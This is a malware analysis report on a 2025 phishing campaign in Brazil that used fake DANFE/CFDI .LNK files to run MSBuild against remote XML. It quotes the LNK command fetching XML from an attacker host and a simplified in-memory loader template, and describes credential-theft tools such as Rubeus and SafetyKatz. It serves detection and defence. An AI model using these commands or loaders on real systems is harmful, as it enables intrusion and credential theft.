









## 1. Executive Summary

Between June and August 2025, a malware distribution campaign in Brazil was identified using .LNK files disguised as DANFE/CFDI PDFs. The primary vector exploited the abuse of the legitimate binary MSBuild.exe (a LOLBIN – Living Off The Land Binary), which sought to load malicious .xml files via UNC paths on attacker-controlled domains. The infrastructure involved multiple domains (e.g., `filehosting.simple-url.com`, `filehosting.is-certified.com`).

The technique aimed for both fileless execution in memory and potential theft of NTLMv2 credentials through SMB/WebDAV access attempts.

## 2. Attack Chain (TTPs)

### 2.1 Delivery

*   Phishing emails containing .lnk attachments with names like:
    *   `DANFE1497181.pdf.lnk`
    *   `DANFE1638504.pdf.lnk`
    *   `CFDI514884.pdf.lnk`
*   Disguised as electronic tax documents (DANFE/CFDI), common in Brazilian campaigns.



### 2.2 Execution

*   The .lnk file pointed to:
    ```cmd
    C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe -nologo \\filehosting.simple-url.com\Documents\DANFE1497181.xml
    ```
*   Abuse of MSBuild.exe to process remote XML.



### 2.3 Fileless Payload

*   The .xml files contained `CodeTaskFactory` in C# to:
    *   Download and execute additional payloads.
    *   Execute inline code in memory (`Assembly.Load`).
    *   Enable potential C2 communication.

### 2.4 Evasion and Persistence

*   Use of a signed Microsoft binary (T1127.001 – MSBuild).
*   .lnk files with double extensions (e.g., `.pdf.lnk`) to trick users.
*   Attempted use of SMB/WebDAV to bypass traditional HTTP inspection.

### 2.5 Potential Impact

*   Execution of trojans or RATs.
*   Credential exfiltration (via NTLMv2).
*   Stealth persistence without initially writing executables to disk.

## 3. Observed Infrastructure

*   **Domains:**
    *   `filehosting.simple-url.com`
    *   `filehosting.is-certified.com`
*   **URL Patterns:**
    *   `/Documents/DANFE*.xml`
    *   `/archivos/descargar/CFDI*`
    *   `/nota/download/DANFE*`
*   **Servers:** IIS 10.0 (ports 80/443 open). Initially, port 445 (SMB) was publicly exposed.

### 3.1 Evidence in Shodan

*   Port 445/tcp (SMB) open, version 2, with authentication disabled.
*   Available shares:
    *   `ADMIN$`, `C$`, `IPC$` (standard)
    *   `Documents`
    *   `Downloads`
    *   `Users`
*   This confirms that the `Documents` share (mentioned in the LNK command) was accessible anonymously, allowing direct download of the malicious XML.

## 4. IOCs (Indicators of Compromise)

**LNK Files:**
*   `DANFE1497181.pdf.lnk`
*   `DANFE1638504.pdf.lnk`
*   **Example Hash:**
    *   SHA256: `e0cb3debd34e079b0b52feee53cddf94ecbee7fa6342386b5e12e88add3499ed`

**Domains / URLs:**
*   `filehosting.simple-url.com`
*   `filehosting.is-certified.com`
*   `https://www.filehosting.is-certified.com/archivos/descargar/CFDI*`
*   `https://filehosting.is-certified.com/nota/download/DANFE*`

**IP Address:**
*   `173.249.202.62` (last resolution for `filehosting.simple-url.com`)



## 5. GhostBuild – MSBuild Payload Generator

During analysis, it was identified that the XMLs used in the campaign were compatible with the GhostBuild project (PUA.XML.GhostBuilder.SM).

This is a public builder available on GitHub (`bohops/GhostBuild`) that allows packaging .NET assemblies into an MSBuild payload.

1.  The builder takes a malicious .NET binary, compresses it (zlib), and converts it to Base64.
2.  It injects it into an XML template that uses `CodeTaskFactory`.
3.  When executed via MSBuild, the XML decompresses the bytes and loads them directly into memory using `Assembly.Load`.

**Simplified example of the generated payload's function:**
```xml
<Project>
  <Target Name="Run">
    <GhostBuild />
  </Target>
  <UsingTask TaskName="GhostBuild" TaskFactory="CodeTaskFactory" ...>
    <Task>
      <Code Type="Class" Language="cs">
        // Decompress Base64 payload and load assembly
        byte[] compressed = Convert.FromBase64String("...");
        // ... decompression logic ...
        Assembly.Load(decompressedBytes).EntryPoint.Invoke(null, null);
      </Code>
    </Task>
  </UsingTask>
</Project>
```
This explains why samples were detected as GhostBuilder: the XML did not load a fixed malware but rather a generic launcher, capable of running any .NET tool (e.g., Rubeus, RATs, trojans). This gives the attacker flexibility to rotate payloads without changing the initial stage (LNK).



**Supported Variants:**
The repository contains different ready-to-use XML projects to embed known tools from the GhostPack family and similar.



## 6. Confirmed Payload: Rubeus

During analysis, the presence of `Rubeus.exe` as a payload loaded via GhostBuild was confirmed.

*   **Hash SHA256:** `1faa0609db2ef16f714885992eb77e36465af8878c5a84fd46ba2854c31fe327`
*   **AV Classification:** Hacktool.MSIL.Fochi / Trojan / PUA
*   **Functions:** Kerberos ticket manipulation, Kerberoasting, Golden/Silver tickets, pass-the-ticket, AS-REP roasting, Overpass-the-Hash.
*   **Implications:** Indicates a focus on post-exploitation of corporate environments with Active Directory, not just home users.




## 7. Additional Findings During Reverse Engineering

During reverse engineering analysis with dnSpy, some binaries proved particularly interesting:

*   **`SharpWMI.exe`:** Identified test user `"harmj0y"` and password `"Password123!"`. Static credentials typical of research projects, not necessarily valid in real environments.
*   **`SafetyKatz.exe`:** A combination of Mimikatz reimplemented in C# for credential and LSASS dump. Capable of bypassing some security solutions that block the classic Mimikatz binary.
*   **`SharpDPAPI.exe`:** Focused on extracting credentials protected by Windows DPAPI, including browser passwords, Wi-Fi, and credentials stored in vaults.
*   **`SharpChrome.exe`:** Collection of sensitive data stored in the Chrome browser, including cookies and saved passwords, exploiting local DPAPI.



*   **`Seatbelt.exe`:** Extensive environment enumeration utility (host information, patches, security policies, UAC settings, etc.), useful for post-exploitation reconnaissance.
*   **`SharpUp.exe`:** Identification of privilege escalation vectors on Windows systems, including misconfigured services and file permissions.



*   **`SharpDump.exe` / `SharpKatz.exe`:** Tools for dumping memory from critical processes (like LSASS), enabling extraction of hashes and tickets.

These findings reinforce that the campaign was not limited to a specific payload but had the capability to load different post-exploitation utilities, maximizing attacker flexibility.

## 8. MITRE ATT&CK Mapping

*   **T1204.002** – User Execution: Malicious File (LNK disguised as PDF).
*   **T1127.001** – Trusted Developer Utilities Proxy Execution: MSBuild.
*   **T1105** – Ingress Tool Transfer (payload download via XML).
*   **T1557** – Adversary-in-the-Middle (possible NTLM capture/relay via UNC).
*   **T1036** – Masquerading (double extension `.pdf.lnk`).
*   **T1620** – Reflective Code Loading (`Assembly.Load` in memory).
*   **T1558.003** – Steal or Forge Kerberos Tickets (Rubeus).

## 9. Conclusion

The analyzed campaign represents an evolution in the use of LOLBINs (MSBuild) in attacks targeting Brazil, leveraging social engineering with DANFE/CFDI lures.

The infrastructure was active until 07/31/2025, when the domain exposed SMB v2 publicly with an anonymously accessible `Documents` share, confirming the feasibility of downloading the malicious XML.

Currently, port 445 is filtered, suggesting the attacker closed access after exposure. Furthermore, the use of GhostBuild as a builder to generate malicious XMLs loading known post-exploitation tools, including Rubeus, was confirmed.

The repository evidence shows that attackers could easily switch between different tools from the GhostPack family (SharpDPAPI, SharpUp, SharpWMI, etc.), increasing the threat's flexibility and persistence.

Although part of the infrastructure is no longer active, the technique remains valid and should be monitored in corporate environments. The focus should be on early detection of suspicious LNKs, monitoring of MSBuild activity, and blocking insecure protocols from internet access.